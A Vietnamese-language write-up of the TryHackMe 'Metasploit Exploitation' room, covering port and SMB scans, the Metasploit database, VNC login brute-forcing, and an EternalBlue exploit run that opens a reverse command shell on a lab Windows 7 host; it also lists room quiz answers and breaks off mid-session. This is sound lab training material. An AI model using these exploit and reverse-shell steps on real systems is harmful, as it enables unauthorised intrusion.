


# Metasploit Exploitation

## Mục lục

1. [Task 1: Introduction](#task-1-introduction)
2. [Task 2: Scanning](#task-2-scanning)
3. [Task 3: The Metasploit Database](#task-3-the-metasploit-database)
4. [Task 4: Vulnerability Scanning](#task-4-vulnerability-scanning)
5. [Task 5: xploitation](#task-5-xploitation)
6. [Task 6: Msfvenom](#task-6-msfvenom)


## Nội dung

# Task 1: Introduction

>Giới thiệu

Trong phòng này, chúng ta sẽ học cách sử dụng Metasploit để quét lỗ hổng bảo mật và khai thác. Chúng ta cũng sẽ đề cập đến cách tính năng cơ sở dữ liệu giúp việc quản lý các hoạt động kiểm thử xâm nhập trở nên dễ dàng hơn với phạm vi rộng hơn. Cuối cùng, chúng ta sẽ xem cách tạo payload với **msfvenom** và cách bắt đầu một phiên **Meterpreter** trên hầu hết các nền tảng mục tiêu.

Cụ thể hơn, các chủ đề chúng ta sẽ đề cập gồm:

* Cách quét các hệ thống mục tiêu bằng Metasploit.
* Cách sử dụng tính năng cơ sở dữ liệu của Metasploit.
* Cách sử dụng Metasploit để thực hiện quét lỗ hổng.
* Cách sử dụng Metasploit để khai thác các dịch vụ dễ bị tấn công trên hệ thống mục tiêu.
* Cách sử dụng **msfvenom** để tạo payload và có được một phiên Meterpreter trên hệ thống mục tiêu.

Lưu ý: Với tất cả các câu hỏi yêu cầu sử dụng wordlist (ví dụ tấn công brute-force), chúng ta sẽ sử dụng wordlist trên AttackBox tại đường dẫn:

```
/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
```

Nếu bạn chọn sử dụng máy của riêng mình, vui lòng tải xuống wordlist bằng cách nhấp vào nút "Download Task Files" ở bên phải.

Khởi động AttackBox và chạy Metasploit bằng lệnh **msfconsole** để làm theo nội dung của phòng này.

---

# Task 2: Scanning

### Port Scanning - Quét cổng 

Metasploit có nhiều mô-đun để quét các cổng đang mở trên hệ thống và mạng mục tiêu. Bạn có thể liệt kê các mô-đun quét cổng tiềm năng có sẵn bằng cách sử dụng lệnh:

```
search portscan
```

```bash
msf6 > search portscan

Matching Modules
================

 #  Name                                                 Disclosure Date  Rank    Check  Description
 -  ----                                                 ---------------  ----    -----  -----------
 0  auxiliary/scanner/http/wordpress_pingback_access                      normal  No     Wordpress Pingback Locator
 1  auxiliary/scanner/natpmp/natpmp_portscan                              normal  No     NAT-PMP External Port Scanner
 2  auxiliary/scanner/portscan/ack                                        normal  No     TCP ACK Firewall Scanner
 3  auxiliary/scanner/portscan/ftpbounce                                  normal  No     FTP Bounce Port Scanner
 4  auxiliary/scanner/portscan/syn                                        normal  No     TCP SYN Port Scanner
 5  auxiliary/scanner/portscan/tcp                                        normal  No     TCP Port Scanner
 6  auxiliary/scanner/portscan/xmas                                       normal  No     TCP "XMas" Port Scanner
 7  auxiliary/scanner/sap/sap_router_portscanner                          normal  No     SAPRouter Port Scanner

Interact with a module by name or index, for example use 7 or use auxiliary/scanner/sap/sap_router_portscanner

msf6 >
```

Các mô-đun quét cổng sẽ yêu cầu bạn thiết lập một số tùy chọn:

```bash
msf6 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf6 auxiliary(scanner/portscan/tcp) >
```

* **CONCURRENCY**: Số lượng mục tiêu sẽ được quét đồng thời.
* **PORTS**: Phạm vi cổng cần quét. Lưu ý rằng phạm vi 1–1000 ở đây sẽ không giống với khi sử dụng Nmap với cấu hình mặc định. Nmap sẽ quét 1000 cổng được sử dụng nhiều nhất, trong khi Metasploit sẽ quét các cổng từ 1 đến 10000.
* **RHOSTS**: Mục tiêu hoặc mạng mục tiêu cần quét.
* **THREADS**: Số lượng luồng sẽ được sử dụng đồng thời. Số luồng nhiều hơn sẽ giúp quét nhanh hơn.

Bạn có thể thực hiện quét Nmap trực tiếp từ dấu nhắc `msfconsole` như minh họa bên dưới để nhanh hơn:

```bash
msf6 > nmap -sS 10.10.12.229
[*] exec: nmap -sS 10.10.12.229

Starting Nmap 7.60 ( https://nmap.org ) at 2021-08-20 03:54 BST
Nmap scan report for ip-10-10-12-229.eu-west-1.compute.internal (10.10.12.229)
Host is up (0.0011s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
MAC Address: 02:CE:59:27:C8:E3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 64.19 seconds
msf6 >
```

Như để thu thập thông tin, nếu bạn cần một phương pháp quét cổng nhanh hơn, **Metasploit** có thể không phải là lựa chọn hàng đầu. Tuy nhiên, có một số module khiến **Metasploit** trở thành công cụ hữu ích trong giai đoạn quét.

### Xác định dịch vụ UDP 

Module **scanner/discovery/udp\_sweep** sẽ cho phép bạn nhanh chóng xác định các dịch vụ đang chạy trên UDP (User Datagram Protocol).
Như bạn có thể thấy bên dưới, module này sẽ không thực hiện quét toàn diện tất cả các dịch vụ UDP có thể có, nhưng cung cấp một cách nhanh chóng để nhận diện các dịch vụ như **DNS** hoặc **NetBIOS**.

```bash
msf6 auxiliary(scanner/discovery/udp_sweep) > run

[*] Sending 13 probes to 10.10.12.229->10.10.12.229 (1 hosts)
[*] Discovered NetBIOS on 10.10.12.229:137 (JON-PC;:U ;WORKGROUP;:G ;JON-PC;:U ;WORKGROUP;:G ;WORKGROUP;:U ;__MSBROWSE__;:G ;02:ce:59:27:c8:e3)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/discovery/udp_sweep) >
```

### Quét SMB

Metasploit cung cấp một số mô-đun phụ trợ hữu ích cho phép chúng ta quét các dịch vụ cụ thể. Dưới đây là một ví dụ cho SMB. Đặc biệt hữu ích trong mạng doanh nghiệp sẽ là `smb_enumshares` và `smb_version`, nhưng hãy dành thời gian để xác định các công cụ quét mà phiên bản Metasploit được cài đặt trên hệ thống của bạn cung cấp.

```bash
msf6 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.12.229:445 - Host is running Windows 7 Professional SP1 (build:7601) (name:JON-PC) (workgroup:WORKGROUP) (signatures:optional)
[*] 10.10.12.229:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/smb/smb_version) >
```

Khi thực hiện quét dịch vụ, điều quan trọng là không bỏ qua các dịch vụ “đặc biệt” hơn như NetBIOS.
NetBIOS (Network Basic Input Output System), tương tự SMB, cho phép máy tính giao tiếp qua mạng để chia sẻ tệp hoặc gửi tệp tới máy in.
Tên NetBIOS của hệ thống mục tiêu có thể cho bạn biết vai trò của nó và thậm chí cả mức độ quan trọng (ví dụ: CORP-DC, DEVOPS, SALES, v.v.).
Bạn cũng có thể bắt gặp một số tệp và thư mục chia sẻ có thể truy cập mà không cần mật khẩu hoặc được bảo vệ bằng mật khẩu đơn giản (ví dụ: admin, administrator, root, toor, v.v.).

Hãy nhớ rằng Metasploit có nhiều mô-đun có thể giúp bạn hiểu rõ hơn về hệ thống mục tiêu và có thể giúp bạn tìm ra lỗ hổng bảo mật.
Luôn đáng để thực hiện tìm kiếm nhanh để xem có mô-đun nào hữu ích dựa trên hệ thống mục tiêu của bạn hay không.

---

**Trả lời các câu hỏi sau**

Câu 1: Có bao nhiêu cổng đang mở trên hệ thống mục tiêu?

Trả lời 1: 5


---
Câu 2: Sử dụng trình quét phù hợp, tên NetBIOS bạn thấy là gì?

Trả lời 2: ACME IT SUPPORT


---

Câu 3: Dịch vụ nào đang chạy trên cổng 8000?

Trả lời 3: webfs/1.21


---

Câu 4: Mật khẩu SMB của người dùng “penny” là gì? Sử dụng danh sách từ đã đề cập trong nhiệm vụ trước.

Trả lời 4: leo1234


---

# Task 3: The Metasploit Database
>Cơ sở dữ liệu Metasploit

Mặc dù không bắt buộc khi tương tác với một mục tiêu duy nhất trên TryHackMe, nhưng trong một bài kiểm thử xâm nhập thực tế, bạn có thể sẽ có nhiều mục tiêu.

Metasploit có chức năng cơ sở dữ liệu để đơn giản hóa việc quản lý dự án và tránh những nhầm lẫn có thể xảy ra khi thiết lập các giá trị tham số.

### Starting Postgresql

Trước tiên, bạn cần khởi động cơ sở dữ liệu PostgreSQL, mà Metasploit sẽ sử dụng, với lệnh sau:

```
systemctl start postgresql
```

Sau đó, bạn cần khởi tạo cơ sở dữ liệu Metasploit bằng cách sử dụng lệnh:

```
msfdb init
```

```bash
root@attackbox:~# systemctl start postgresql 
root@attackbox:~# msfdb init
[i] Database already started
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activerecord-4.2.11.3/lib/active_record/connection_adapters/abstract_adapter.rb:84: warning: deprecated Object#=~ is called on Integer; it always returns nil
root@attackbox:~#
```

### Checking the database status

Bây giờ bạn có thể khởi chạy `msfconsole` và kiểm tra trạng thái cơ sở dữ liệu bằng lệnh `db_status`.

```bash
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
msf6 >
```

### Listing workspaces

Tính năng cơ sở dữ liệu sẽ cho phép bạn tạo các không gian làm việc (workspaces) để tách biệt các dự án khác nhau. Khi mới khởi động, bạn sẽ ở trong không gian làm việc mặc định. Bạn có thể liệt kê các không gian làm việc hiện có bằng lệnh `workspace`.

```bash
msf6 > workspace
* default
msf6 >
```

### Adding a workspace

Bạn có thể thêm một workspace bằng cách sử dụng tham số `-a` hoặc xóa một workspace bằng tham số `-d`. Lệnh bên dưới cho thấy một workspace mới có tên "tryhackme" đã được tạo.

```bash
msf6 > workspace -a tryhackme
[*] Added workspace: tryhackme
[*] Workspace: tryhackme
msf5 > workspace
default
* tryhackme
msf6 >
```

### Changing workspaces

Bạn cũng sẽ nhận thấy rằng tên cơ sở dữ liệu mới được in màu đỏ, bắt đầu với ký hiệu `*`.

Bạn có thể sử dụng lệnh `workspace` để di chuyển giữa các workspace chỉ bằng cách gõ `workspace` kèm theo tên workspace mong muốn.

```bash
msf6 > workspace
default
* tryhackme
msf5 > workspace default
[*] Workspace: default
msf5 > workspace 
tryhackme
* default
msf6 >
```

### Workspace help menu

Bạn có thể sử dụng lệnh `workspace -h` để liệt kê các tùy chọn có sẵn cho lệnh `workspace`.

```bash
msf6 > workspace -h
Usage:
workspace                  List workspaces
workspace -v               List workspaces verbosely
workspace [name]           Switch workspace
workspace -a [name] ...    Add workspace(s)
workspace -d [name] ...    Delete workspace(s)
workspace -D               Delete all workspaces
workspace -r     Rename workspace
workspace -h               Show this help information
```

### Database backend commands

Khác với cách sử dụng thông thường của Metasploit, khi Metasploit được khởi chạy với một cơ sở dữ liệu, lệnh `help` sẽ hiển thị menu Database Backends Commands.

```bash
Database Backend Commands
=========================
```

```bash
Command           Description
-------           -----------
analyze           Analyze database information about a specific address or address range
db_connect        Connect to an existing data service
db_disconnect     Disconnect from the current data service
db_export         Export a file containing the contents of the database
db_import         Import a scan result file (filetype will be auto-detected)
db_nmap           Executes nmap and records the output automatically
db_rebuild_cache  Rebuilds the database-stored module cache (deprecated)
db_remove         Remove the saved data service entry
db_save           Save the current data service connection as the default to reconnect on startup
db_status         Show the current data service status
hosts             List all hosts in the database
loot              List all loot in the database
notes             List all notes in the database
services          List all services in the database
vulns             List all vulnerabilities in the database
workspace         Switch between database workspaces
```

### The db_nmap command

Nếu bạn chạy quét Nmap bằng lệnh `db_nmap` như minh họa bên dưới, tất cả kết quả sẽ được lưu vào cơ sở dữ liệu.

```bash
msf6 > db_nmap -sV -p- 10.10.12.229
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-20 03:15 UTC
[*] Nmap: Nmap scan report for ip-10-10-12-229.eu-west-1.compute.internal (10.10.12.229)
[*] Nmap: Host is up (0.00090s latency).
[*] Nmap: Not shown: 65526 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49158/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49162/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: MAC Address: 02:CE:59:27:C8:E3 (Unknown)
[*] Nmap: Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 94.91 seconds
msf6 >
```

### Hosts and services

Bây giờ bạn có thể truy cập thông tin liên quan đến các host và dịch vụ đang chạy trên hệ thống mục tiêu bằng các lệnh `hosts` và `services`, tương ứng.

```bash
msf6 > hosts
```

```bash
Hosts
=====
address       mac                name                                        os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----                                        -------  ---------  -----  -------  ----  --------
10.10.12.229  02:ce:59:27:c8:e3  ip-10-10-12-229.eu-west-1.compute.internal  Unknown                    device         
msf6 > services
Services
========
host          port   proto  name               state  info
----          ----   -----  ----               -----  ----
10.10.12.229  135    tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.10.12.229  445    tcp    microsoft-ds       open   Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.12.229  3389   tcp    ssl/ms-wbt-server  open   
10.10.12.229  49152  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49153  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49154  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49158  tcp    msrpc              open   Microsoft Windows RPC
10.10.12.229  49162  tcp    msrpc              open   Microsoft Windows RPC
msf6 
```

Các lệnh `hosts -h` và `services -h` có thể giúp bạn quen thuộc hơn với các tùy chọn có sẵn.

Khi thông tin host đã được lưu trong cơ sở dữ liệu, bạn có thể dùng lệnh `hosts -R` để thêm giá trị này vào tham số RHOSTS.

**Ví dụ quy trình làm việc**

1. Chúng ta sẽ sử dụng mô-đun quét lỗ hổng để tìm các lỗ hổng tiềm năng MS17–010 bằng lệnh `use auxiliary/scanner/smb/smb_ms17_010`.
2. Đặt giá trị RHOSTS bằng lệnh `hosts -R`.
3. Gõ `show options` để kiểm tra tất cả các giá trị đã được gán đúng chưa. (Trong ví dụ này, `10.10.138.32` là địa chỉ IP mà ta đã quét trước đó bằng lệnh `db_nmap`).
4. Khi tất cả tham số đã được thiết lập, khởi chạy exploit bằng lệnh `run` hoặc `exploit`.


### Using saved hosts

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf5 auxiliary(scanner/smb/smb_ms17_010) > hosts -R 
```

```bash
Hosts
=====
address       mac                name                                        os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----                                        -------  ---------  -----  -------  ----  --------
10.10.12.229  02:ce:59:27:c8:e3  ip-10-10-12-229.eu-west-1.compute.internal  Unknown                    device         
RHOSTS => 10.10.12.229
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options 
Module options (auxiliary/scanner/smb/smb_ms17_010):
Name         Current Setting                                                 Required  Description
----         ---------------                                                 --------  -----------
CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
RHOSTS       10.10.12.229                                                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT        445                                                             yes       The SMB service port (TCP)
SMBDomain    .                                                               no        The Windows domain to use for authentication
SMBPass                                                                      no        The password for the specified username
SMBUser                                                                      no        The username to authenticate as
THREADS      1                                                               yes       The number of concurrent threads (max one per host)
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

Nếu có nhiều hơn một host được lưu trong cơ sở dữ liệu, tất cả các địa chỉ IP sẽ được sử dụng khi chạy lệnh `hosts -R`.

Trong một buổi kiểm thử xâm nhập điển hình, chúng ta có thể có kịch bản sau:

* Tìm các host khả dụng bằng lệnh `db_nmap`.
* Quét các host này để tìm thêm lỗ hổng hoặc cổng mở (sử dụng mô-đun quét cổng).


### Querying the database for services

Lệnh `services` khi dùng với tham số `-s` sẽ cho phép bạn tìm kiếm các dịch vụ cụ thể trong môi trường.

```bash
msf6 > services -S netbios                                                                                       
Services                                                                                                             
========                                                                                                             
                                                                                                                
host          port  proto  name         state  info                                                                              
----          ----  -----  ----         -----  ----                                                                              
10.10.12.229  139   tcp    netbios-ssn  open   Microsoft Windows netbios-ssn
```
Bạn có thể muốn tìm các mục tiêu "dễ khai thác" như:

* **HTTP**: Có thể chứa một ứng dụng web nơi bạn có thể tìm thấy lỗ hổng như SQL injection hoặc Remote Code Execution (RCE).
* **FTP**: Có thể cho phép đăng nhập ẩn danh và truy cập vào các tệp quan trọng.
* **SMB**: Có thể dễ bị khai thác bởi các lỗ hổng SMB như MS17–010.
* **SSH**: Có thể dùng thông tin đăng nhập mặc định hoặc dễ đoán.
* **RDP**: Có thể dễ bị khai thác bởi BlueKeep hoặc cho phép truy cập desktop nếu thông tin đăng nhập yếu được sử dụng.

Như bạn thấy, Metasploit có nhiều tính năng để hỗ trợ trong quá trình kiểm thử, chẳng hạn như khả năng chia nhỏ các phiên làm việc thành các workspace, phân tích kết quả ở mức cao, và nhanh chóng nhập cũng như khám phá dữ liệu.

---

# Task 4: Vulnerability Scanning
**Quét Lỗ Hổng Bảo Mật**

Metasploit cho phép bạn nhanh chóng xác định một số lỗ hổng nghiêm trọng có thể được coi là “trái chín thấp” (*low hanging fruit*). Thuật ngữ “low hanging fruit” thường ám chỉ các lỗ hổng dễ nhận biết và dễ khai thác, có thể cho phép bạn giành quyền kiểm soát ban đầu đối với hệ thống và, trong một số trường hợp, đạt được quyền cao cấp như root hoặc administrator.

Việc tìm kiếm lỗ hổng bằng Metasploit sẽ phụ thuộc nhiều vào khả năng quét và xác định đặc điểm (fingerprint) của mục tiêu. Bạn càng giỏi ở các bước này, Metasploit sẽ càng cung cấp cho bạn nhiều tùy chọn hơn. Ví dụ, nếu bạn xác định được một dịch vụ VNC đang chạy trên mục tiêu, bạn có thể sử dụng chức năng `search` trong Metasploit để liệt kê các module hữu ích. Kết quả sẽ bao gồm cả payload và post module. Ở giai đoạn này, các kết quả này có thể chưa thực sự hữu ích vì chúng ta vẫn chưa phát hiện ra một khai thác tiềm năng để sử dụng. Tuy nhiên, trong trường hợp của VNC, có một số module quét mà chúng ta có thể sử dụng.

**Ví dụ**: Các module quét VNC

```bash
msf6 > use auxiliary/scanner/vnc/
use auxiliary/scanner/vnc/ard_root_pw    use auxiliary/scanner/vnc/vnc_login      use auxiliary/scanner/vnc/vnc_none_auth
msf6 > use auxiliary/scanner/vnc/
```

### VNC login scanner

Bạn có thể sử dụng lệnh `info` cho bất kỳ module nào để hiểu rõ hơn về cách sử dụng và mục đích của nó.

```bash
msf6 auxiliary(scanner/vnc/vnc_login) > info
       Name: VNC Authentication Scanner
     Module: auxiliary/scanner/vnc/vnc_login
    License: Metasploit Framework License (BSD)
       Rank: Normal
Provided by:
  carstein 
  jduck 
Check supported:
  No
Basic options:
  Name              Current Setting                                                  Required  Description
  ----              ---------------                                                  --------  -----------
  BLANK_PASSWORDS   false                                                            no        Try blank passwords for all users
  BRUTEFORCE_SPEED  5                                                                yes       How fast to bruteforce, from 0 to 5
  DB_ALL_CREDS      false                                                            no        Try each user/password couple stored in the current database
  DB_ALL_PASS       false                                                            no        Add all passwords in the current database to the list
  DB_ALL_USERS      false                                                            no        Add all users in the current database to the list
  PASSWORD                                                                           no        The password to test
  PASS_FILE         /opt/metasploit-framework-5101/data/wordlists/vnc_passwords.txt  no        File containing passwords, one per line
  Proxies                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                                                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
  RPORT             5900                                                             yes       The target port (TCP)
  STOP_ON_SUCCESS   false                                                            yes       Stop guessing when a credential works for a host
  THREADS           1                                                                yes       The number of concurrent threads (max one per host)
  USERNAME                                                                    no        A specific username to authenticate as
  USERPASS_FILE                                                                      no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false                                                            no        Try the username as the password for all users
  USER_FILE                                                                          no        File containing usernames, one per line
  VERBOSE           true                                                             yes       Whether to print output for all attempts
Description:
  This module will test a VNC server on a range of machines and report 
  successful logins. Currently it supports RFB protocol version 3.3, 
  3.7, 3.8 and 4.001 using the VNC challenge response authentication 
  method.
References:
  https://cvedetails.com/cve/CVE-1999-0506/
msf6 auxiliary(scanner/vnc/vnc_login) >
```

Như bạn có thể thấy, module `vnc_login` có thể giúp chúng ta tìm thông tin đăng nhập cho dịch vụ VNC.

**Câu hỏi:** Ai là người viết module cho phép chúng ta kiểm tra máy chủ SMTP để tìm open relay?

**Trả lời:** Campbell Murray


---

# Task 5: xploitation
>Khai thác lỗ hổng

Như tên gọi, Metasploit là một framework khai thác lỗ hổng. Các exploit là nhóm module có số lượng nhiều nhất.

### Chi tiết phiên bản Metasploit

```bash
=[ metasploit v5.0.101-dev]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post]
+ -- --=[ 562 payloads - 45 encoders - 10 nops]
+ -- --=[ 7 evasion]
```

Bạn có thể tìm kiếm các exploit bằng lệnh `search`, lấy thêm thông tin về exploit bằng lệnh `info`, và khởi chạy exploit bằng lệnh `exploit`.
Mặc dù quá trình này khá đơn giản, hãy nhớ rằng để đạt được kết quả thành công, bạn cần phải hiểu rõ các dịch vụ đang chạy trên hệ thống mục tiêu.

Hầu hết các exploit sẽ có payload mặc định được thiết lập sẵn. Tuy nhiên, bạn luôn có thể sử dụng lệnh `show payloads` để liệt kê các payload khác mà bạn có thể dùng với exploit đó.

### Payload khả dụng


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads 
Compatible Payloads
===================
   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64
   6   windows/x64/meterpreter/bind_ipv6_tcp                        manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   windows/x64/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   8   windows/x64/meterpreter/bind_named_pipe                      manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
   9   windows/x64/meterpreter/bind_tcp                             manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
   10  windows/x64/meterpreter/bind_tcp_rc4                         manual  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
```

Khi bạn đã quyết định chọn payload, bạn có thể sử dụng lệnh `set payload` để thực hiện lựa chọn của mình.

### Payload options

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 
Module options (exploit/windows/smb/ms17_010_eternalblue):
   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
Payload options (generic/shell_reverse_tcp):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Lưu ý rằng việc chọn một payload hoạt động có thể trở thành quá trình thử và sai do các hạn chế từ môi trường hoặc hệ điều hành như quy tắc tường lửa, phần mềm chống virus, ghi tệp, hoặc chương trình thực thi payload không khả dụng (ví dụ: `payload/python/shell_reverse_tcp`).

Một số payload sẽ yêu cầu thiết lập thêm các tham số mới. Bạn có thể chạy lại lệnh `show options` để hiển thị chúng. Như trong ví dụ trên, một payload dạng reverse sẽ ít nhất yêu cầu bạn thiết lập tùy chọn `LHOST`.

### Thiết lập giá trị LHOST và chạy exploit

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
[*] Started reverse TCP handler on 10.10.186.44:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.186.44:4444 -> 10.10.12.229:49366) at 2021-08-20 04:51:19 +0100
C:\Windows\system32>
```

Khi một phiên làm việc được mở, bạn có thể đưa nó về chế độ nền bằng tổ hợp phím `CTRL+Z` hoặc hủy nó bằng `CTRL+C`.
Đưa phiên làm việc về chế độ nền sẽ hữu ích khi bạn làm việc trên nhiều mục tiêu cùng lúc hoặc trên cùng một mục tiêu nhưng với một exploit và/hoặc shell khác.

### Đưa phiên làm việc về chế độ nền

```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
Active sessions
===============
  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
